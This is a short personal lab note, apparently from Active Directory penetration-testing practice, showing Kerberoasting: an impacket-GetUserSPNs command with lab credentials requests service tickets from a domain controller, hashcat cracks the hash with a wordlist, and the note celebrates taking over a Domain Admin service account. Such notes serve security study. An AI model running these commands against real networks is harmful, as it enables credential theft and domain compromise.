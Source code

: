 - `impacket-GetUserSPNs MARVEL.local/fcastle:Password1 -dc-ip 10.0.1.4 -request`
  ![[Pasted image 20250329165310.png]]
- Cracking the hash using hashcat:
	- `hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt`
- Domain Admin `SQLService` Account hacked : ) :
![[Pasted image 20250329165648.png]]